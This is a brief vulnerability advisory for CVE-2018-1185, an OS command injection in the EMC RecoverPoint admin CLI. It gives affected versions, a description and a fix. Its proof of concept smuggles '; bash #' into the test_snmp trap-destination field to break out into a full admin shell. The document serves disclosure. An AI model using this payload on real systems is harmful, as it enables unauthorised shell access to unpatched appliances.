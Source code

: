 ## EMC RecoverPoint Admin CLI Command Injection test_snmp

- Version: RecoverPoint prior to 5.1.1 RecoverPoint for VMs prior to 5.0.1.3
- Date: 2018-05-11
- Vendor Advisory: http://seclists.org/fulldisclosure/2018/Feb/9
- Exploit Author: Paul Taylor (@bao7uo) / Foregenix Ltd
- Github: https://github.com/bao7uo
- Tested on: RecoverPoint for VMs 4.3, RecoverPoint 4.4.SP1.P1
- CVE: CVE-2018-1185

## 1. Description

An OS command injection vulnerability resulting in code execution as the built-in admin user. 

A crafted entry can result in the ability to escape from the restricted admin user's menu driven CLI to a full Linux operating system shell in the context of the admin user. The attack vector is the trap destination (hostname/IP) parameter of the test_snmp function.
 
## 2. Proof of Concept

```
RecoverPoint> test_snmp
Enter the trap destination (host name or IP)
 > /dev/null 2>&1 ; bash #
admin@RecoverPoint:/home/kos/cli$ exit
exit
Test completed successfully.
RecoverPoint> 
```

## 3. Solution:
    
Update to latest version of RecoverPoint
